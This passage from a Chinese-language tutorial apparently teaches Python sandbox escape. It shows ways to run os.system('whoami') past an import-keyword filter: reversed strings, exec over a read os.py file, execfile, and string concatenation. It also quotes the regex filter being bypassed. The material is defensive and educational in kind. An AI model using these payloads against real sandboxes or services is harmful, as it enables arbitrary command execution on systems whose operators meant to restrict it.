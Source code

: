 字符串f翻转截取

```none
>>> __import__('so'[::-1]).system('whoami')misaki\user>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])misaki\user
```

再万一，他是这么禁止的

```none
import re,syspattern  = re.compile('import')match = re.search(pattern,sys.args[1])if match:    print "forbidden module import detected"    raise Exception
```

这样的话，不管怎么换导入函数都会被禁止。那么是否有不直接使用import关键字来导入的方式。既然需要导入也就是只需要能执行对应的库就可以。

使用execfile，不过在这之前需要判断得到库的物理路径。如果sys模块没被禁用的话，就可以使用sys来获取物理路径。这种方式只能用在python2中，python3取消了execfile

```none
>>> execfile('/usr/lib/python2.7/os.py')  #Linux系统下默认路径>>> system('whoami')misaki
```

python3可以利用读取文件，配合exec来执行

```none
>>> f = open(r'/usr/lib/python3.6/os.py','r')>>> exec(f.read())>>> system('whoami')misaki#不可以执行利用exec打开读取，exec需要执行的是其中的内容，直接打开的时候exec执行的就是读取文件操作exec("open('/usr/lib/python3.6/os.py','r').read()")
```

使用with open的形式

```none
>>> with open('/usr/lib/python3.6/os.py','r') as f:...     exec(f.read())...>>> system('whoami')misaki
```

或者使用字符串拼接的方式，但是需要跟exec，eval一起利用。

```none
>>> exec('imp'+'ort'+' '+'os;'+'os.system("whoami")')misaki\user
```

这里exec不需要导入就可以直接引用，当然不需要导入就可以引用的函数不止这一个，因为一个内建函数的原因。

### _*builtins*_

__builtins__即时引用，在程序还为执行代码的时候就已经加载进来了。此模块并不需要导入，可以在任何模块中执行引用。比如在python2中

![image-20200421095142948](assets/20200424150423.png)
